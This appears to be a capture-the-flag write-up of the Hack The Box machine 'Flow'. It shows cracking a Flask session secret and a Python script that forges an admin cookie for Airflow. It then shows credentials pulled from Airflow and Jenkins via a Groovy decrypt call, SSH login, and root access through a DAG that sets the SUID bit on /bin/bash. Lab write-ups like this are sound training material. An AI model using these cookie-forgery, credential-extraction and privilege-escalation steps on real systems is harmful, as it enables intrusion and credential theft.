 # Flow
```
# nmap -sCV -p- flow.htb
Nmap scan report for flow.htb (10.129.172.173)
Host is up (0.082s latency).
Scanned at 2021-07-24 02:37:27 CEST for 341s
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: gunicorn/20.0.4
| http-title: Airflow
|_Requested resource was http://flow.htb:8000/login/?next=http%3A%2F%2Fflow.htb%3A8000%2Fhome
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
On port 8080 the web server is hosting a Jenkins. Unfortunately default credentials doesn't work.

On port an Airflow application is also prompting us for credentials.

![Airflow login](img/login_airflow.png "Airflow login")

When trying to connect on this interface we noticed the web server assigned us a flask cookie. We tried to bruteforce the cookie secret key using [flask-unsign](https://pypi.org/project/flask-unsign/) and it was successful:

```
$ flask-unsign -c '.eJx9kEFPwzAMhf9KlXO1toOOphLijAQSJy5oqtzUSSO8pEo8yjTx3zEgcYKdEr9879nOWQ2WIM-YVf9yVgXLoVZIwQenSnUf3oD8VFB0PmyKJ0LIWHA6FeBAFLX_2JcSkTDPqrdAGaVcMB0gYJAwTkdRTE524PiKQfXKbnUzoumaG41oNWzbdjd2ur3qtFwb3TTmGo3ZSfsJ3JAZ-JgH64kxiR2I5IWiAUIpJbJUCzgcZp85ptPXAjPz0leVpbhuZh77rq7rSnaoSJjq7ht_iO4xTkjPHtfbWkL-NL2bePhx_UcsMdJlwsQQ0LCP4TL3O6D86id-9oYb.YP87aA.XhCS-DqQkiEOiZKSHxJVb0RTYvY' -w all.txt -u
[*] Session decodes to: {'_flashes': [('warning', 'Invalid login. Please try again.')], '_fresh': False, '_permanent': True, 'csrf_token': 'f291bec8179eef9a2556b8953892551911c4ecc6', 'dag_status_filter': 'all', 'locale': 'en', 'page_history': ['http://flow.htb:8000/log/list/?page_LogModelView=0', 'http://flow.htb:8000/xcom/list/', 'http://flow.htb:8000/pool/list/', 'http://flow.htb:8000/connection/list/', 'http://flow.htb:8000/log/list/']}
[*] Starting brute-forcer with 8 threads..
[*] Attempted (9600): (H`_key=2499d4a4f8ad842fb5ed41
[+] Found secret key after 36096 attempt
'temporary_key'
```
When analyzing the front page source code we can see the Flask-AppBuilder is used:
```
<!-- Adapted from: https://github.com/dpgaspar/Flask-AppBuilder/blob/master/flask_appbuilder/templates/appbuilder/flash.html -->
<link rel="stylesheet" type="text/css" href="/static/css/flash.css">

<!-- Split messages into two arrays: one for regular alerts, another for DAG import errors -->
```
By digging in this repository we were looking for the user session management. requirements.txt file shows the flask-login library: https://github.com/dpgaspar/Flask-AppBuilder/blob/master/requirements.txt#L17.

By overlooking at flask-login cookie's attributes we saw the field `user_id` was used to identify users: https://github.com/maxcountryman/flask-login/blob/0.4.1/flask_login/login_manager.py#L311.

We forged our own flask cookie we the following python code:

```python
#!/usr/bin/env python3

from itsdangerous import URLSafeTimedSerializer, TimestampSigner
from flask_unsign.helpers import LegacyTimestampSigner
from flask.json.tag import TaggedJSONSerializer
import hashlib
import requests

def sign(value: dict, secret: str, legacy: bool = False, salt: str = "cookie-session"):
    return get_serializer(secret, legacy, salt).dumps(value)

def get_serializer(secret: str, legacy: bool, salt: str):
    if legacy:
        signer = LegacyTimestampSigner
    else:
        signer = TimestampSigner

    return URLSafeTimedSerializer(
        secret_key=secret,
        salt=salt,
        serializer=TaggedJSONSerializer(),
        signer=signer,
        signer_kwargs={
            'key_derivation': 'hmac',
            'digest_method': hashlib.sha1})


payload = {'_fresh': False, '_permanent': True, 'csrf_token': 'f291bec8179eef9a2556b8953892551911c4ecc6', 'locale': 'en','user_id':"1"}
cookie = sign(payload, "temporary_key")
print(cookie)
```

```bash
$ ./signer2.py 
.eJwNi8EOwiAQBf9lz1y2SmX5GULXR2pEahZ6avx3uc1MMhelYug7xZJrh6P0hX1yQxsUh52zaLeSxvFGo0hlEd6ggR8CFMmL9-sWxN-CTGRh1jtUV3JUD80V85mjo7PD0us5len3B_hYJJA.YP88ww.mqaoAXLqq4po1q0p66xPG8NFg8I
```

By changing the cookie in our browser, we sucessfully obtain an admin session. While crawling the application we were looking for juicy information such as password. The Jenkins password was indeed in the application. It was in the Admin/Variables menu. Cleartext passwords can be obtained by exporting them:


![Getting credentials](img/get_password.png "Getting credentials")

The exported file contains the credentials:
```
{
    "JENKINS_BUILD_PASSWORD": "sVLfGQzHyW8WM22"
}
```

By checking the logs in Browse/Logs menu in Airflow, we can obtained a list of user (amelia or root).

The credentials root:sVLfGQzHyW8WM22 were working on the Jenkins login portal port 8080.

Running a groovy script on Jenkins, we found amelia credentials.

![Amelia password](img/amelia_password.png "Amelia password")

Another groovy script can retrieve amelia credentials. These credentials can be used on SSH to get user flag.
```
println(hudson.util.Secret.decrypt("{AQAAABAAAAAg+HUDOG0OqnfR1ExuHUvv0Qb/0QDNMPmncSVOHYZFSJHSNn/RFDjy9MU6JdEoxgy0}"))
v]C:ZZ6*pmv6jgBJ

$ ssh amelia@flow.htb
amelia@flow:~$ cat user.txt
HTB{w4tch_0ut_th0s3_0ld_v3rs10ns}
```

The `note.txt` in the user folder suggest to drop dags files in `/opt/dags` and they will be proceed. We also can run `sudo airflow` which will process the dags files. We noticed we could hijack a python library, here `os`.
We just need to submit a dag file with a valid syntax, this can be found on the following [tutorial](https://www.invivoo.com/en/creating-your-first-apache-airflow-dag/).


```
amelia@flow:/opt/dags$ cat payload.py
import os
os.system("chmod +s /bin/bash")

from airflow import DAG
from airflow.operators.bash_operator import BashOperator
from airflow.utils.dates import days_ago


default_args = {
    'owner': 'airflow',
    'start_date': days_ago(5),
    'email': ['airflow@my_first_dag.com'],
    'email_on_failure': False,
    'email_on_retry': False,
    'retries': 1,
    'retry_delay': timedelta(minutes=5),
}

my_first_dag = DAG(
    'first_dag',
    default_args=default_args,
    description='Our first DAG',
    schedule_interval=timedelta(days=1),
)


amelia@flow:/opt/dags$ sudo airflow backfill payload -s 2020-03-01 -e 2022-03-05
[2021-07-26 23:17:03,177] {__init__.py:50} INFO - Using executor SequentialExecutor
[2021-07-26 23:17:03,177] {dagbag.py:417} INFO - Filling up the DagBag from /root/airflow/dags
[2021-07-26 23:17:03,184] {dagbag.py:259} ERROR - Failed to import: /root/airflow/dags/payload.py
Traceback (most recent call last):
  File "/usr/local/lib/python3.8/dist-packages/airflow/models/dagbag.py", line 256, in process_file
    m = imp.load_source(mod_name, filepath)
  File "/usr/lib/python3.8/imp.py", line 171, in load_source
    module = _load(spec)
  File "<frozen importlib._bootstrap>", line 702, in _load
  File "<frozen importlib._bootstrap>", line 671, in _load_unlocked
  File "<frozen importlib._bootstrap_external>", line 783, in exec_module
  File "<frozen importlib._bootstrap>", line 219, in _call_with_frames_removed
  File "/root/airflow/dags/payload.py", line 16, in <module>
    'retry_delay': timedelta(minutes=5),
NameError: name 'timedelta' is not defined
Traceback (most recent call last):
  File "/usr/local/bin/airflow", line 37, in <module>
    args.func(args)
  File "/usr/local/lib/python3.8/dist-packages/airflow/utils/cli.py", line 80, in wrapper
    return f(*args, **kwargs)
  File "/usr/local/lib/python3.8/dist-packages/airflow/bin/cli.py", line 188, in backfill
    dag = dag or get_dag(args)
  File "/usr/local/lib/python3.8/dist-packages/airflow/bin/cli.py", line 163, in get_dag
    raise AirflowException(
airflow.exceptions.AirflowException: dag_id could not be found: payload. Either the dag did not exist or it failed to parse.

amelia@flow:/opt/dags$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
amelia@flow:/opt/dags$ bash -p
bash-5.0# cat /root/root.txt
HTB{d0nt_run_4rb1tr4ry_d4gs}
```